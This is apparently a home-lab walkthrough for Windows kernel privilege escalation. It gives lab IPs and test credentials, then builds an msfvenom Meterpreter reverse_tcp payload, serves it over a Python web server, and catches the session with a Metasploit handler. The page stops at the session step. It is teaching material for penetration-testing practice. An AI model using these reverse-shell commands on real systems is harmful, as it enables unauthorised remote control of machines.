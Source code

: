 # 🔬Win Kernel Privesc

## Lab 1 (Extra)

> 🔬 **Home Lab**
>
> I have prepared a vulnerable *Windows 2008 R2 Virtual Machine* and connected it to the same network of the Kali virtual machine.
>
> - Host system: `Kali Linux` - IP `192.168.31.128`
> - Target system: `Windown Server 2008 R2` - IP `192.168.31.131` - `test`:`Exploit12345`
>
> 
>
> ❗ **Targeting Kernel space memory and apps can cause system crashes, data loss, etc. Do NOT use it in production systems**❗

### Exploitation

- Get a `Meterpreter` session on the target with a manual payload
- Create the payload on the Kali VM

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=4444 -f exe -o payload.exe
```

- Start a webserver on Kali VM

```
python3 -m http.server
```

- On the Win2008 VM, login with the `test`:`Exploit12345` user
  - Open the link `http://192.168.31.128:8000/` and download `payload.exe`
  - Stop the webserver on Kali VM
- Set up a payload handler on Kali VM

```bash
msfconsole -q
```

```bash
use exploit/multi/handler 
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.31.128
set LPORT 4444
run
```

- On the Win2008 VM, run the payload with the `test` user

![](.gitbook/assets/image-20230315174129546.png)

- View the `meterpreter` session on Kali VM
